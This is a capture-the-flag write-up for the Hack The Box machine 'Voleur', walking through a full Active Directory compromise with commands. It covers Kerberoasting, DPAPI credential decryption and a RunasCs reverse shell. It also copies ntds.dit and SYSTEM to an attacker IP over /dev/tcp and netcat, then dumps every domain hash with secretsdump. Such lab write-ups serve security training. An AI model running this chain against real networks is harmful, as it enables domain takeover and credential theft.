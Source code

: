 ## Voleur

```
Difficulty: Medium
Operating System: Windows
Hints: True
```

### 🏁 Summary of Attack Chain

| Step | User / Access | Technique Used | Result |
| :--- | :--- | :--- | :--- |
| 1 | `ryan.naylor` | **Nmap**, **ntpdate**, **impacket-getTGT**, **nxc** | Used a Kerberos pre-authentication vulnerability to gain initial access to Active Directory services and successfully authenticated with provided credentials. |
| 2 | `ryan.naylor` | **NetExec**, **impacket-smbclient**, **brute-force** | Enumerated SMB shares to find the `IT` share. A brute-force attack on a file `Access_Review.xlsx` in that share revealed the password (`fo..........1`). The file contained credentials for `svc_ldap`, `svc_iis`, and `Todd Wolfe`. |
| 3 | `svc_ldap` | **impacket-getTGT**, **targetedKerberoast.py** | Exploited the `WriteSPN` vulnerability to perform a targeted Kerberoasting attack against `svc_winrm`, which yielded its hashed password. |
| 4 | `svc_winrm` | **Evil-WinRM**, **RunasCs**, **Get-ADObject**, **Restore-ADObject** | Used WinRM to log in. Impersonated `svc_ldap` to restore the deleted user `Todd Wolfe` from Active Directory. |
| 5 | `Todd Wolfe` | **impacket-smbclient**, **impacket-dpapi** | Accessed `Todd Wolfe`'s archived profile via a new SMB share. Decrypted his DPAPI credentials with his password (`Nig............14`) to find the credentials for `jeremy.combs`. |
| 6 | `jeremy.combs` | **impacket-smbclient**, **ssh** | Found the `Third-Line Support` SMB share and downloaded `id_rsa`. A note confirmed the key was for the `svc_backup` user, allowing a successful SSH login on a non-standard port. |
| 7 | `svc_backup` | **netcat**, **impacket-secretsdump** | Exfiltrated the `ntds.dit` and `SYSTEM` files from a mounted C drive backup. An offline hash dump was performed on these files to obtain the hashes of all domain users, including the `Administrator` account. |


### Initial Foothold
The penetration test begins with the provided credentials for the user ryan.naylor and the password HollowOct31Nyt. The first step is to perform reconnaissance and establish a working environment.

#### Nmap Scan: A port scan reveals the following key services:

53/tcp (DNS): Simple DNS Plus

88/tcp (Kerberos): Microsoft Windows Kerberos

135/tcp (msrpc): Microsoft Windows RPC

389/tcp (LDAP): Active Directory LDAP

445/tcp (SMB): Microsoft Windows netbios-ssn

2222/tcp (SSH): OpenSSH 8.2p1 Ubuntu

5985/tcp (HTTP): Microsoft HTTPAPI (WinRM)

Environment Setup: To ensure Kerberos functions correctly, the domain controller dc.voleur.htb is added to /etc/hosts and the system time is synchronized with the target.

Bash
```
# Add to /etc/hosts
10.10.11.76 dc.voleur.htb
```
```
# Synchronize time
ntpdate voleur.htb
```

**Access Restricted by HackTheBox Rules**

<!--

Kerberos TGT Acquisition: The impacket-getTGT tool is used to request a Kerberos Ticket-Granting Ticket (TGT) for ryan.naylor, which is saved to a .ccache file. This ticket is then exported as the primary authentication method.

Bash
```
impacket-getTGT voleur.htb/'ryan.naylor':'HollowOct31Nyt'
export KRB5CCNAME=/home/kali/Voleur/ryan.naylor.ccache
```
Initial Enumeration with nxc: The Kerberos ticket allows for authentication and basic enumeration with nxc (NetExec).

Bash
```
nxc ldap voleur.htb -u ryan.naylor -p HollowOct31Nyt -k
```
**Successfully Authenticates**
```
nxc smb dc.voleur.htb -u ryan.naylor -p HollowOct31Nyt -k
```

Information Gathering and First Privilege Escalation Path
The initial foothold provides an opportunity for deeper enumeration to find a path for privilege escalation.

Bloodhound Analysis: The bloodhound-python tool is used to collect Active Directory data.

Bash
```
bloodhound-python -u ryan.naylor -p HollowOct31Nyt -k -ns 10.10.11.76 -c All -d voleur.htb --zip
```

![Overview](Pictures/htb_voleur_start.png)

This shows that ryan.naylor has no direct power but is a member of a "special group."

![User](Pictures/htb_voleur_start_user.png)

SMB Share Enumeration: A detailed enumeration of SMB shares reveals several interesting directories.

Bash
```
NetExec smb dc.voleur.htb -u ryan.naylor -p 'HollowOct31Nyt' -k --shares
```
This command reveals the IT share, which is readable.

File Discovery in IT Share: Using impacket-smbclient, the IT share is explored. A directory First-Line Support contains an Excel file named Access_Review.xlsx.

**Overview**

![Overview](Pictures/htb_voleur_Overview.png)

The file is downloaded.

The file is password-protected.

A brute-force attack successfully cracks the password: foo.......

Credential Leakage: The contents of the Excel file are a significant find. It contains a list of users and their passwords:

Todd Wolfe (deleted): Nigh......3on14

svc_ldap: M1.......qT5Vn

svc_iis: N5.......Z8

### Privilege Escalation (Part 1) - Targeted Kerberoasting

**Overview**

![Targeted_Kerberoasting](Pictures/htb_voleur_svcldap_Gen_R_Lacey.png)

Using the svc_ldap credentials, a new attack vector is identified.

Re-authentication: A new TGT is obtained for svc_ldap.

Bash
```
impacket-getTGT voleur.htb/'svc_ldap':'M1XXXXX7qT5Vn'
export KRB5CCNAME=/home/kali/Voleur/svc_ldap.ccache
```
Targeted Kerberoast: It is discovered that svc_ldap has GenericWrite permission on lacey.miller and WriteSPN on svc_winrm. The targetedKerberoast.py script is executed to request service tickets.

Bash
```
python targetedKerberoast.py -k --dc-host dc.voleur.htb -u svc_ldap -d voleur.htb
```
This dumps the Kerberos tickets for lacey.miller and svc_winrm. The ticket for svc_winrm is successfully cracked, yielding its password (which is not explicitly stated in the log but is a crucial step).

WinRM Access: The newly acquired credentials for svc_winrm are used to establish a session via WinRM.
![Credentials](Pictures/htb_voleur_svc_winrm_cred.png)

Bash
```
evil-winrm -i dc.voleur.htb -u svc_winrm -p '<cracked_password>'
```

![User_flag](Pictures/htb_voleur_svc_winrm_user_flag.png)

### Privilege Escalation (Part 2) - Restoring a Deleted User
Inside the WinRM session, the tester discovers that the svc_ldap account belongs to the RESTORE_USERS group, suggesting a path to restore deleted user accounts.

![Restore](Pictures/htb_voleur_svc_ldap_b_restore.png)

User Impersonation: To leverage the RESTORE_USERS group's permissions, the svc_ldap user is impersonated from the svc_winrm session using RunasCs.exe.

Bash
```
upload /home/kali/Voleur/RunasCs.exe
.\RunasCS.exe svc_ldap M1XyC...qT5Vn powershell.exe -r 10.10.xx.xxx6666
```
This provides a shell as svc_ldap.

User Restoration: From this shell, the Get-ADObject and Restore-ADObject cmdlets are used to find and restore the previously deleted Todd Wolfe user.

PowerShell
```
Get-ADObject -Filter 'isDeleted -eq $true -and objectClass -eq "user"' -IncludeDeletedObjects
Get-ADObject -Filter 'isDeleted -eq $true -and Name -like "*Todd Wolfe*"' -IncludeDeletedObjects | Restore-ADObject
```
DPAPI Key Retrieval: Re-enumerating SMB shares reveals a new directory structure for Second-Line Support and Archived Users. Inside todd.wolfe's archived profile, DPAPI-encrypted files are found:

08949382-XXXX-4c63-b93c-ce52efc0aa88 (Master Key)

772275FAD58XXXXX3490A9B0039791D3 (Credential file)

![Overview](Pictures/htb_voleur_Todd_Second_Tech.png)

DPAPI Decryption: Using impacket-dpapi, the master key and credential file are decrypted with Todd Wolfe's password (Nig........3on14).

Bash
```
impacket-dpapi masterkey -file <master_key_file> -sid <sid> -password 'Night.....P1dg3on14'
impacket-dpapi credential -file <credential_file> -key <decrypted_master_key>
```
This process successfully extracts new credentials: jeremy.combs with the password qT3V.....7W4m.

![View](Pictures/htb_voleur_access.png)

### Privilege Escalation (Part 3) - SSH Access and Final Credential Dump

With the new jeremy.combs credentials, a final push is made to compromise the domain.

SSH Key Discovery: The jeremy.combs account's permissions are used to re-enumerate SMB shares. A new directory, Third-Line Support, is found with two files: id_rsa and Note.txt.txt.

id_rsa is an SSH private key.

Note.txt.txt indicates that the key is for the svc_backup user and is related to WSL (Windows Subsystem for Linux).

SSH Login: The private key is used to connect to the SSH server on port 2222 as svc_backup.
![Key](Pictures/htb_voleur_sshkey.png)

Bash
```
chmod 600 id_rsa

ssh -i id_rsa svc_backup@voleur.htb -p 2222
```
NTDS and SYSTEM File Exfiltration: Inside the SSH session, the C drive is mounted at /mnt/c. The svc_backup user has access to a Backups/Active Directory directory within C:\IT\Third-Line Support. This directory contains the critical ntds.dit and SYSTEM files. These files are exfiltrated using netcat.

![Admin](Pictures/htb_voleur_Admin_hash_prep.png)

Bash

```
# On the target
cat ntds.dit > /dev/tcp/10.10.16.48/8888
cat SYSTEM > /dev/tcp/10.10.16.48/8888
# On the attacker machine
nc -lvnp 8888 > ntds.dit
nc -lvnp 8888 > SYSTEM
```

Final Hash Dump: The exfiltrated ntds.dit and SYSTEM files are used with impacket-secretsdump on the local machine to dump all domain credentials, including the NTLM hashes for all users and the krbtgt account.

Bash
```
impacket-secretsdump -ntds ntds.dit -system SYSTEM local
impacket-getTGT voleur.htb/'administrator' -hashes ':e656e07c5XXXXXXXXXXXXXXXXXXX'
export KRB5CCNAME=/home/XXXXXXXXXXXx/ctf_OpenVPN/administrator.ccache
```


**Add that configuration to the Kerberos configuration file:**

bash

Open the file with root permissions:

bash
```
sudo nano /etc/krb5.conf
```
Replace or update the content like this:

```
[libdefaults]
    default_realm = VOLEUR.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false

[realms]
    VOLEUR.HTB = {
        kdc = dc.voleur.htb
    }

[domain_realm]
    .voleur.htb = VOLEUR.HTB
    voleur.htb = VOLEUR.HTB
```
![Modify KRB5](Pictures/htb_voleur_modifykrb5conf.png)

This final command provides the highest level of access and completes the penetration test.

![Root Flag](Pictures/htb_voleur_svc_winrm_root_flag.png)

```
evil-winrm -i dc.voleur.htb -k administrator.ccache -r voleur.htb 
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: Useless cert/s provided, SSL is not enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> ls


    Directory: C:\Users\Administrator\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         1/30/2025   6:20 AM                WindowsPowerShell
-a----          5/7/2025   4:57 PM            108 cleanup.ps1


*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         1/29/2025   1:12 AM           2308 Microsoft Edge.lnk
-ar---          8/1/2025  11:02 AM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
5edXXXXXXXXXXXXXXXXXXff688f
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cd C:\Users\
*Evil-WinRM* PS C:\Users> ls
                                                                                                                                                              
                                                                                                                                                              
    Directory: C:\Users                                                                                                                                       
                                                                                                                                                              
                                                                                                                                                              
Mode                 LastWriteTime         Length Name                                                                                                        
----                 -------------         ------ ----                                                                                                        
d-----          6/5/2025   3:30 PM                Administrator                                                                                               
d-----         1/29/2025   7:11 AM                jeremy.combs
d-r---         1/28/2025  12:35 PM                Public
d-----         1/30/2025   3:39 AM                svc_bxxxxxxx
d-----         1/29/2025   4:47 AM                svc_lxxx
d-----         1/29/2025   7:07 AM                svc_wxxxx
d-----         1/29/2025   4:53 AM                todd.wolfe


*Evil-WinRM* PS C:\Users> cd svc_wxxxx
*Evil-WinRM* PS C:\Users\svc_wxxxx> ls


    Directory: C:\Users\svc_wxxx


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-r---         1/29/2025   7:07 AM                3D Objects
d-r---         1/29/2025   7:07 AM                Contacts
d-r---         1/31/2025   1:55 AM                Desktop
d-r---          8/2/2025   5:42 AM                Documents
d-r---         1/29/2025   7:07 AM                Downloads
d-r---         1/29/2025   7:07 AM                Favorites
d-r---         1/29/2025   7:07 AM                Links
d-r---         1/29/2025   7:07 AM                Music
d-r---         1/29/2025   7:07 AM                Pictures
d-r---         1/29/2025   7:07 AM                Saved Games
d-r---         1/29/2025   7:07 AM                Searches
d-r---         1/29/2025   7:07 AM                Videos


*Evil-WinRM* PS C:\Users\svc_wixxxx> cd Desktop
*Evil-WinRM* PS C:\Users\svc_wixxxx\Desktop> ls


    Directory: C:\Users\svc_winrm\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         1/29/2025   7:07 AM           2312 Microsoft Edge.lnk
-ar---          8/1/2025  11:02 AM             34 user.txt


*Evil-WinRM* PS C:\Users\svc_xxxxx\Desktop> cat user.txt
e94XXXXXXXXXXXXXXXXXXXXXXXXXXXX0144
*Evil-WinRM* PS C:\Users\svc_wxxxx\Desktop> 


-->


**Pwned! Voleur**